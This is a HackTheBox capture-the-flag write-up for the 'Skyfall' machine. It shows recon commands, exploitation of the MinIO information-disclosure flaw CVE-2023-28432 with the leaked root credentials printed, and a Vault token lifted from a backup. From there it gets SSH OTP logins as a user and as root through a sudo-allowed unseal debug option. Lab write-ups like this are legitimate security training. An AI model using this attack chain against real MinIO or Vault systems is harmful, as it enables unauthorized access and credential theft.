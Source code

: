 ```yaml
---
title: HTB-Skyfall
draft: false
tags:
  - htb
  - linux
  - insane
---
```

pic here

## Information Gathering

`rustscan --addresses 10.10.11.254 --range 1-65535`

![alt text](image.png)

`sudo nmap -sVC -p 80 10.10.11.254`

![alt text](image-1.png)

## Enumeration
### HTTP - TCP 80

![alt text](image-2.png)

skyfall.htb

![alt text](image-3.png)

`sudo gobuster vhost --append-domain -u http://skyfall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

![alt text](image-4.png)

### demo.skyfall.htb
guest:guest

![alt text](image-5.png)

![alt text](image-6.png)

MinioMetrics

/metrics

![alt text](image-7.png)

`%0a`

![alt text](image-8.png)

When I scroll down the page, I come across the MinIO endpoint.

`http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster` /etc/hosts

![alt text](image-9.png)


### prd23-s3-backend.skyfall.htb


![alt text](image-10.png)


## Shel as askyy
### CVE-2023-28432


![alt text](image-11.png)

https://github.com/acheiii/CVE-2023-28432/

![alt text](image-12.png)

`POST /minio/bootstrap/v1/verify`

![alt text](image-13.png)

```
MINIO_ROOT_USER:5GrE1B2YGGyZzNHZaIww
MINIO_ROOT_PASSWORD:GkpjkmiVmpFuL2d3oRx0
```

### MinIO Client

**mc**** is a command-line client for **MinIO**, an open-source object storage server compatible with Amazon S3 cloud storage service.



https://min.io/docs/minio/linux/reference/minio-mc.html#id2

![alt text](image-14.png)

`mc alias set myminio http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0`

![alt text](image-15.png)

`mc ls myminio`

![alt text](image-16.png)

`mc ls --recursive --versions myminio`

![alt text](image-17.png)

`mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz ~/Documents/htb/skyfall/home_backup.tar.gz`

![alt text](image-18.png)

### Vault

`sudo tar xzvf home_backup.tar.gz`

![alt text](image-19.png)


`.bashrc`

![alt text](image-20.png)

```
export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
```

prd23-vault-internal.skyfall.htb

/etc/hosts

https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords


`wget https://releases.hashicorp.com/vault/1.15.5/vault_1.15.5_linux_amd64.zip`

`export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"`

`export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"`


`./vault login`

![alt text](image-21.png)

`./vault token capabilities ssh/roles`

![alt text](image-23.png)

`./vault list ssh/roles`

![alt text](image-24.png)

`./vault ssh -role dev_otp_key_role -mode OTP -strict-host-key-checking=no askyy@10.10.11.254`

![alt text](image-22.png)

## Privesc: askyy to root
### Sudoers

`sudo -l`

![alt text](image-25.png)

`sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml`

![alt text](image-26.png)

`sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd`

![alt text](image-27.png)

![alt text](image-28.png)

![alt text](image-29.png)

![alt text](image-30.png)



sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd 


### SSH as root

```
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="hvs.I0ewVsmaKU1SwVZAKR3T0mmG"
```

![alt text](image-31.png)

`./vault ssh -role admin_otp_key_role -mode OTP -strict-host-key-checking=no root@10.10.11.254`

![alt text](image-32.png)

## References
- https://github.com/acheiii/CVE-2023-28432/
- https://min.io/docs/minio/linux/reference/minio-mc.html#id2